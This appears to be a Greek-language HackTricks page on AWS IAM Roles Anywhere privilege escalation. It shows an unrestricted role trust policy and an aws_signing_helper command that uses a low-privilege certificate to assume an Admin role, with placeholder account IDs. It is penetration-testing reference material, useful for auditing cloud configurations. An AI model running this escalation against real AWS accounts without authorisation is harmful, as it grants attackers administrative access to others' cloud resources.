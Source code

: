 # AWS - IAM Roles Anywhere Privesc

{{#include ../../../../banners/hacktricks-training.md}}

AWS IAM RolesAnywhere επιτρέπει σε φόρτους εργασίας εκτός AWS να αναλαμβάνουν IAM ρόλους χρησιμοποιώντας πιστοποιητικά X.509. Αλλά όταν οι πολιτικές εμπιστοσύνης δεν είναι σωστά καθορισμένες, μπορούν να καταχρηστούν για κλιμάκωση προνομίων.

Αυτή η πολιτική στερείται περιορισμών σχετικά με το ποιοι κόμβοι εμπιστοσύνης ή χαρακτηριστικά πιστοποιητικών επιτρέπονται. Ως αποτέλεσμα, οποιοδήποτε πιστοποιητικό συνδεδεμένο με οποιονδήποτε κόμβο εμπιστοσύνης στον λογαριασμό μπορεί να χρησιμοποιηθεί για να αναλάβει αυτόν τον ρόλο.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Service": "rolesanywhere.amazonaws.com"
},
"Action": [
"sts:AssumeRole",
"sts:SetSourceIdentity",
"sts:TagSession"
]
}
]
}

```
Για privesc, απαιτείται το `aws_signing_helper` από https://docs.aws.amazon.com/rolesanywhere/latest/userguide/credential-helper.html

Στη συνέχεια, χρησιμοποιώντας ένα έγκυρο πιστοποιητικό, ο επιτιθέμενος μπορεί να μεταβεί στον ρόλο με υψηλότερα δικαιώματα.
```bash
aws_signing_helper credential-process \
--certificate readonly.pem \
--private-key readonly.key \
--trust-anchor-arn arn:aws:rolesanywhere:us-east-1:123456789012:trust-anchor/ta-id \
--profile-arn arn:aws:rolesanywhere:us-east-1:123456789012:profile/default \
--role-arn arn:aws:iam::123456789012:role/Admin
```
### Αναφορές

- https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation/

{{#include ../../../../banners/hacktricks-training.md}}
